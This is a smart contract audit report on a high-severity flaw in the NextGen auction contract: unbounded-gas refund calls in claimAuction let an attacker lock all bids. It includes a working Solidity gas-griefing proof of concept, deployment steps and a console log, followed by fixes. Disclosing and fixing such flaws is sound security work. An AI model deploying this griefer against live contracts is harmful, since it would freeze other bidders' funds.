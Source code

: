 # H-03 Hacker can DoS auction and gas grief claimAuction caller

## Severity

High

## Impact

The vulnerability allows any participant, especially a malicious actor, to engage in a Denial of Service (DoS) attack on the auction claim functionality. By backrunning the auction creation and strategically participating in the bidding process, the attacker can exhaust the gas of the claim initiator, resulting in a transaction revert and locking the funds of other bidders in the auction contract.

## Proof of Concept

The vulnerability arises in the [claimAuction](https://github.com/code-423n4/2023-10-nextgen/blob/8b518196629faa37eae39736837b24926fd3c07c/smart-contracts/AuctionDemo.sol#L116) function, particularly in the bidding process where there is no gas limit set for the return of bids to participants. The lack of a gas limit enables a malicious participant to spend all the gas of the claim initiator, leading to a DoS attack. 

```solidity
function claimAuction(uint256 _tokenid) public WinnerOrAdminRequired(_tokenid,this.claimAuction.selector){
    for (uint256 i=0; i< auctionInfoData[_tokenid].length; i ++) {
        if (auctionInfoData[_tokenid][i].bidder == highestBidder && auctionInfoData[_tokenid][i].bid == highestBid && auctionInfoData[_tokenid][i].status == true) {
          // ...
        } else if (auctionInfoData[_tokenid][i].status == true) {
            (bool success, ) = payable(auctionInfoData[_tokenid][i].bidder).call{value: auctionInfoData[_tokenid][i].bid}(""); // @audit-issue no gas limit
            // ...
        } else {}
    }
}
```

The sequence of events leading to the DoS attack involves the creation of the auction, strategic bidding by the attacker, and the subsequent invocation of the claimAuction function:

1. Auction is created.
2. Hacker backruns auction creation to be the first to bid.
3. In his transaction he sends a few bids with a dust amount of wei from a malicious contract.
4. Other participants send their bids to the auction.
5. Winner calls the claimAuction function.
6. When bids are sent back to the hacker, the receive method in his contract spends all of it.
7. The transaction initiator is gas griefed and the transaction reverts because of an out-of-gas error.
8. Funds of all bidders are locked in the contract forever.

Hacker has to use multiple bids because of EIP150. Since this proposal, the gas sent to external calls is 63/64 of gas left.

Also, even with the gas limit in place, there is still a way to do the gas grieving. Hacker may use the receive method in his contract to return enormous data payload which is then saved to the memory. Writing ```(bool success, )```is the same as ```(bool success, bytes memory data)```. Memory allocation becomes very costly and a huge amount of gas will be spent for allocating data to memory.

### Remix PoC

A proof of concept has been developed using Remix to demonstrate how gas depletion occurs. The attacker exploits the absence of a gas limit, causing the transaction to fail due to an out-of-gas error. 

<details>
  <summary>PoC Snippet</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "hardhat/console.sol";

contract Auction {
    struct Bid {
        address bidder;
        uint bid;
    }

    Bid[] public bidInfo;

    function claim() public {
        for (uint i; i < bidInfo.length; i++) {
            console.log("Return bid number:", i + 1);
            console.log("|  Gas before external call:", gasleft());
            (bool success,) = payable(bidInfo[i].bidder).call{value: bidInfo[i].bid}("");
            console.log("|  Gas after external call:", gasleft());
        }
    }

    function participate() public payable {
        Bid memory newBid = Bid(msg.sender, msg.value);
        bidInfo.push(newBid);
    }
}

contract GasGriefer {
    uint public counter;

    constructor(address auction) payable {
        for (uint i; i < 4; i++) {
            Auction(auction).participate{value: i + 1}();
        }
    }

    receive() external payable {
        counter = 0;
        while (true) {
            counter++;
        }
    }
}
```
</details><br/>

1. Copy the snippet to [https://remix.ethereum.org](https://remix.ethereum.org/#lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.22+commit.4fc1097e.js)
2. Deploy **Auction** contract.
3. Copy the Auction contract address.
4. Deploy the GasGriefer contract. Use the Auction address as an input and send 10 wei with the transaction.
5. Call **Auction#claim** method with maximum Ethereum block gas limit which is 30 000 000.

The result is that the transaction fails because of an out-of-gas error. The attacker paid only 10 wei to spend all the maximum gas in the block and brick the auction.

```
console.log:
Return bid number: 1
| Gas before external call: 29972904
| Gas after external call: 467942
Return bid number: 2
| Gas before external call: 465525
| Gas after external call: 6928
Return bid number: 3
| Gas before external call: 4510
transact to Auction.claim errored: Error occured: out of gas.
```

### Why is this different from the bot race DoS issue?

In case you think that this is a duplicate of the issue reported in bot race by Hound, [Permanent DoS due to non-shrinking array usage in an unbounded loop](https://github.com/code-423n4/2023-10-nextgen/blob/main/bot-report.md#h-01-permanent-dos-due-to-non-shrinking-array-usage-in-an-unbounded-loop), let me explain why this issue is different.

Yes, the impact is similar - gas grieving and DoS of auction claim. But the root causes and solutions aren't the same and solving one won't solve the other. Hound's issue is based on growing the size of the array indefinitely. The transaction will revert because of iterating through the "infinitely" long array. Vulnerability I found doesn't depend on the growing array. All I need are three bids to DoS the claim and it's because of the missing gas limit.

## Tools Used

Manual review

## Recommended Mitigation Steps

To address this vulnerability, the following mitigation steps are highly recommended:

1. Add gas limit to the low-level call when returning bids.

```diff
function claimAuction(uint256 _tokenid) public WinnerOrAdminRequired(_tokenid,this.claimAuction.selector){
    // ...
    for (uint256 i=0; i< auctionInfoData[_tokenid].length; i ++) {
        if (auctionInfoData[_tokenid][i].bidder == highestBidder && auctionInfoData[_tokenid][i].bid == highestBid && auctionInfoData[_tokenid][i].status == true) {
            // ...
        } else if (auctionInfoData[_tokenid][i].status == true) {
-           (bool success, ) = payable(auctionInfoData[_tokenid][i].bidder).call{value: auctionInfoData[_tokenid][i].bid}("");
+           (bool success, ) = payable(auctionInfoData[_tokenid][i].bidder).call{value: auctionInfoData[_tokenid][i].bid, gas: GAS_LIMIT}("");
            emit Refund(auctionInfoData[_tokenid][i].bidder, _tokenid, success, highestBid);
        } else {}
    }
}
```

2. To address the problem of spending gas on copying huge payload to the memory, think about implementing a low-level assembly call.

```diff
function claimAuction(uint256 _tokenid) public WinnerOrAdminRequired(_tokenid,this.claimAuction.selector){
    // ...
    for (uint256 i=0; i< auctionInfoData[_tokenid].length; i ++) {
        if (auctionInfoData[_tokenid][i].bidder == highestBidder && auctionInfoData[_tokenid][i].bid == highestBid && auctionInfoData[_tokenid][i].status == true) {
            // ...
        } else if (auctionInfoData[_tokenid][i].status == true) {
-           (bool success, ) = payable(auctionInfoData[_tokenid][i].bidder).call{value: auctionInfoData[_tokenid][i].bid}("");
+           bool success;
+           address bidder = auctionInfoData[_tokenid][i].bidder;
+           uint bid = auctionInfoData[_tokenid][i].bid;
+           assembly {
+               success := call(GAS_LIMIT, bidder, bid, 0, 0, 0, 0)
+           }
            emit Refund(auctionInfoData[_tokenid][i].bidder, _tokenid, success, highestBid);
        } else {}
    }
}
```
